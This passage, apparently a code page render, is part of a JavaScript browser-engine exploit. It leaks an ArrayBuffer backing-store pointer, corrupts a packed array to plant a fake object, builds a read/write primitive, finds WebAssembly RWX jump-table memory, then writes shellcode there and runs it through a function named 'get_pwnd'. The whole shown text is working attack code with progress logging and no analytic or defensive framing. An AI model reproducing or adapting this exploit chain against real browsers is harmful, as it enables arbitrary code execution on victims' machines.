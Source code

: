 ```javascript

    let ibackingstore_ptr = f2i(arr2[ab_len_idx + 1]);
    let fbackingstore_ptr = arr2[ab_len_idx + 1];

    // copy the array buffer so as to prepare a good looking fake array buffer
    
    let view = new BigUint64Array(evil_ab);
    for (let i = 0; i < ARRAYBUFFER_SIZE / PTR_SIZE; ++i) {
      view[i] = f2i(arr2[ab_len_idx-3+i]);
    }

    log("[+] Found backingstore pointer : " + hexprintablei(ibackingstore_ptr));

    // [3] corrupt packed_elements_array to replace the pointer to the Math object
    // by a pointer to our fake object located in our evil_ab array buffer
    
    let magic_mark_idx = arr2.indexOf(i2f(MARK1));
    assert(magic_mark_idx != -1, true, "could not find object pointer mark");
    assert(f2i(arr2[magic_mark_idx+2]) == MARK2, true);
    arr2[magic_mark_idx+1] = tagFloat(fbackingstore_ptr);

    // [4] leak wasm function pointer 

    let ftagged_wasm_func_ptr = arr2[magic_mark_idx+3]; // we want to read get_pwnd

    log("[+] wasm function pointer at 0x" + hexprintablei(f2i(ftagged_wasm_func_ptr)));
    view[4] = f2i(ftagged_wasm_func_ptr)-1n;

    // [5] use RW primitive to find WASM RWX memory
    

    let rw_view = new BigUint64Array(packed_elements_array[1]);
    let shared_function_info = rw_view[WasmOffsets.shared_function_info];
    view[4] = shared_function_info - 1n; // detag pointer

    rw_view = new BigUint64Array(packed_elements_array[1]);
    let wasm_exported_function_data = rw_view[WasmOffsets.wasm_exported_function_data];
    view[4] = wasm_exported_function_data - 1n; // detag

    rw_view = new BigUint64Array(packed_elements_array[1]);
    let wasm_instance = rw_view[WasmOffsets.wasm_instance];
    view[4] = wasm_instance - 1n; // detag

    rw_view = new BigUint64Array(packed_elements_array[1]);
    let jump_table_start = rw_view[WasmOffsets.jump_table_start]; // detag

    assert(jump_table_start > 0x10000n, true);
    assert(jump_table_start & 0xfffn, 0n); // should look like an aligned pointer

    log("[+] found RWX memory at 0x" + jump_table_start.toString(16));

    view[4] = jump_table_start;
    rw_view = new Uint8Array(packed_elements_array[1]);

    // [6] write shellcode in RWX memory
    
    for (let i = 0; i < shellcode.length; ++i) {
      rw_view[i] = shellcode[i];
    }

    // [7] PWND!
    
    let res = get_pwnd();
```